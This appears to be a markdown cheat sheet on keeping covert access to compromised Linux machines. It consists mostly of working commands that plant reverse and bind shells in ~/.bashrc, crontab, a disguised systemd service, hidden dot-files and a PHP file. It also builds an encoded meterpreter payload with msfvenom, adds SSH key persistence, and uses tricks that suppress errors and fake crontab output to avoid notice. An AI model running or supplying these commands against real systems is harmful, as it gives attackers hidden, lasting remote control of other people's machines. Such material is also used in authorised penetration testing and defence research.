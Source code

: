 # linux persistance

anytime you have a remote shell, remember to background it and run *stty raw -echo* so the terminal will not echo special character and pass them through the shell (when you type *fg*, it will not echo to screen). You can also use *stty -a* on the attack machine to see your rows and columns and set them to the same thing on the remote box with *stty rows* and *stty cols* respectively

## tools

[linper](https://github.com/montysecurity/linper)

## bashrc

- executed everytime bash is initialized for the given user

`echo "bash -c 'bash -i > /dev/tcp/RHOST/RPORT 2>&1 0>&1' 2> /dev/null 1>&2 & sleep .0001" >> ~/.bashrc`

## crontab

`crontab -l > /tmp/tmp.cgL8qKGk4U && echo "* * * * * bash -c 'bash -i > /dev/tcp/RHOST/RPORT 2>&1 0>&1'" >> /tmp/tmp.cgL8qKGk4U; crontab /tmp/tmp.cgL8qKGk4U && rm /tmp/tmp.cgL8qKGk4U`

`echo -e "* * * * * echo task\rno crontab for $USER" | crontab`

## systemctl

```
echo "bash -c 'bash -i > /dev/tcp/RHOST/RPORT 2>&1 0>&1'" >> /etc/systemd/system/Tb8lKOKxGP.sh

if test -f /etc/systemd/system/M8JmWQM9fr.service;
then
	echo > /dev/null
else
	touch /etc/systemd/system/M8JmWQM9fr.service
	echo "[Service]" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "Type=oneshot" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "ExecStartPre=/usr/bin/sleep 60" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "ExecStart=/bin/bash /etc/systemd/system/Tb8lKOKxGP.sh" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "ExecStartPost=/usr/bin/sleep infinity" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "[Install]" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "WantedBy=multi-user.target" >> /etc/systemd/system/M8JmWQM9fr.service
	chmod 644 /etc/systemd/system/M8JmWQM9fr.service
	systemctl start M8JmWQM9fr.service 2> /dev/null & sleep .0001
	systemctl enable M8JmWQM9fr.service 2> /dev/null & sleep .0001
fi
```

## directories

everything in /etc/init and /etc/init.d/ is ran at startup

/etc/rc.local is a pre-init file that will also work on BSD and Linux, the file has to start with "/bin/bash -e" and end with "exit 0"

## netcat and bashrc

### reverse shell

Put reverse shell in targets bashrc and despite success or fail, it returns no error to screen and gives the user their bash shell upon initilization
	
	On Target Box
		echo "nc attackBox attackPort -e /bin/bash 2> /dev/null & sleep .0001" > ~/.bashrc
	On Attack Box
		nc -lnvp attackPort

### bind shell

Same idea as above, only it's a bind shell, not a reverse shell

	On Target Box
		echo "nc -lnvp attackPort -e /bin/bash 2> /dev/null & sleep .0001" > ~/.bashrc
	On Attack Box
		nc attackBox attackPort

## bash and cron

The less dependencies the better. Since Linux treats socket connections as files, you can redirect the bash terminal's interactive capabilities to a *file* that is really just a socket connection
	
	On Target Box
		echo "echo 'bash -i >& /dev/tcp/attackBox/attackPort 0>&1 | bash'" > /var/tmp/.cron.sh && chmod +x /var/tmp/.cron.sh && echo "* * * * * cd /var/tmp && ./.cron.sh" > cronjobtmp.sh && crontab cronjobtmp.sh && rm cronjobtmp.sh
	On Attack Box
		nc -lnvp attackPort

## metasploit and cron

If you prefer to use msfconsole to make post exploitation a bit easier, below is a one-liner for creating the payload and handler

	On Attack Box
		sudo service postgresql restart && msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -e x86/shikata_ga_nai -i 5 LHOST=attackBox LPORT=attackPort -o mal.elf && msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set LHOST attackBox; set LPORT attackPort; exploit"

	On Target Box
		nc -lnvp $port > /home/.mal.elf && chmod +x /home/.mal.elf
	
	On Attack Box
		nc $target $port < mal.elf

	On Target Box
		echo "* * * * * cd /home/ && ./.mal.elf" > .cron && crontab .cron && shred .cron; rm .cron

## metasploit and ssh

You need to already have a meterpreter session to follow along
	
	In Meterpreter
		use post/linux/manage/sshkey_persistence
		set fields
		run
		
	On Attack Box
		chmod 600 $ssh_key.txt (created by module)
		ssh -i $ssh_key.txt user@target

## php and python

If you have write access to a php file on the target and the target has python installed, you can use the following for a reverse shell

	In PHP file
		<?php system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.12",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''); ?>
	On Attack Box
		nc -lnvp 5555

Suggest stacking persistence, as a wise man once said

> Two is one, one is none - Mubix
